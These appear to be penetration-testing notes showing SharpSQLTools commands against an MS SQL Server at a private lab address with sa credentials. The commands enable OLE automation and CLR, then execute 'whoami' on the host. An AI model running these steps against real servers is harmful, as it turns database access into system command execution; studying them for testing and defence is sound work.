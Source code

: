 ## SharpSQLTools

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master enable_ole

​![image](assets/image-20240906161232-d572c89.png)​

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master sp_oacreate whoami

​![image](assets/image-20240906161316-1fuxhv2.png)​

### sharpsqltool 利用CLR

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master install_clr

​![image](assets/image-20240906162233-nk39ltc.png)​

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master enable_clr

​![image](assets/image-20240906165631-1vsqkiz.png)​

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master clr_exec whoami

​![image](assets/image-20240906165554-sks4s6p.png)​
